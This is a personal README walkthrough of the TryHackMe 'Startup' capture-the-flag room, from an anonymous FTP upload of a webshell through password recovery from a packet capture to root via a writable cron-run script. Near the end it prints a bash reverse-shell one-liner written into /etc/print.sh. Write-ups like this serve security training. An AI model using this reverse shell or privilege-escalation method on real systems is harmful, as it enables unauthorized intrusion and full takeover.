

# Startup CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Startup** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/bsidesgtdav). 
---

scan 


logging to ftp as anonymous and grabbing 2 files we might got our first user `Maya`


we see that ftp and webpage look the same so maybe we could upload a webshell via ftp


we cant upload without changing directory to ftp first because we have full access to it


after accessing the file via webpage we have reverse shell as `www-data`


found recipe.txt and we hace answer to first question on tryhackme 


found directory incidents with `pcapng` file inside


in wireshark we found similar communiaction (somebody using a shell) on tcp port 4444, if we follow the tcp stream we see few commands like `ls`, `cd`, `sudo -l`, `cat /etc/passwd` we see that somebody tried to input password to sudo -l but it didnt worked i tried the same password to login as lennie 


and it worked we got user flag 



there is scripts directory with `planner.sh` script we cant modify it, but planner.sh uses another script `/etc/print.sh` which we can modify


the file doesnt show in `/etc/crontab` but will probably be executed as root

we could check by using command

```
ps aux | grep "planner.sh"
```


adding simple reverse shell into /etc/print.sh

```
#!/bin/bash
bash -i >& /dev/tcp/10.X.X.X/PORT 0>&1
```


we got our shell as root and we can grab the root flag 


## MACHINE PWNED
